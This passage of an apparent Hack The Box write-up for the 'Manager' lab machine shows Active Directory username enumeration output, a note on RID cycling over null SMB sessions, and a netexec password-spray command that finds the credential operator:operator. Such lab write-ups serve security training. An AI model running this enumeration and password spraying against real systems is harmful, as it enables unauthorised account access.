 ```sh

2023/10/24 14:14:00 >  [+] VALID USERNAME:	 ryan@manager.htb
2023/10/24 14:14:06 >  [+] VALID USERNAME:	 guest@manager.htb
2023/10/24 14:14:07 >  [+] VALID USERNAME:	 cheng@manager.htb
2023/10/24 14:14:07 >  [+] VALID USERNAME:	 raven@manager.htb
2023/10/24 14:14:12 >  [+] VALID USERNAME:	 administrator@manager.htb
2023/10/24 14:14:33 >  [+] VALID USERNAME:	 Ryan@manager.htb
2023/10/24 14:14:34 >  [+] VALID USERNAME:	 Raven@manager.htb
2023/10/24 14:14:36 >  [+] VALID USERNAME:	 operator@manager.htb
2023/10/24 14:15:35 >  [+] VALID USERNAME:	 Guest@manager.htb
2023/10/24 14:15:35 >  [+] VALID USERNAME:	 Administrator@manager.htb
2023/10/24 14:16:27 >  [+] VALID USERNAME:	 Cheng@manager.htb
2023/10/24 14:18:21 >  [+] VALID USERNAME:	 jinwoo@manager.htb
2023/10/24 14:18:37 >  [+] VALID USERNAME:	 RYAN@manager.htb
```

It seems that we have 7 users on the AD.
```
ryan
guest
cheng
raven
administrator
operator
jinwoo
```

> Note that this is not the only way to enumerate users here. We could have done it with RID cycling, which is a way to enumerate users based on increasing the RID part of the SID. This is only possible if we can authenticate with a null sesssion to the SMB service.

Now that we have our users list, we can go and try a password spray attack with the `password = user`.

```sh
┌──(kali㉿kali)-[~/htb/windows]
└─$ netexec smb 10.10.11.236 -u users.txt -p users.txt --no-bruteforce
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE  
SMB         10.10.11.236    445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\administrator:administrator STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator
```

Now we have a username and a password: `operator:operator`.

# Foothold
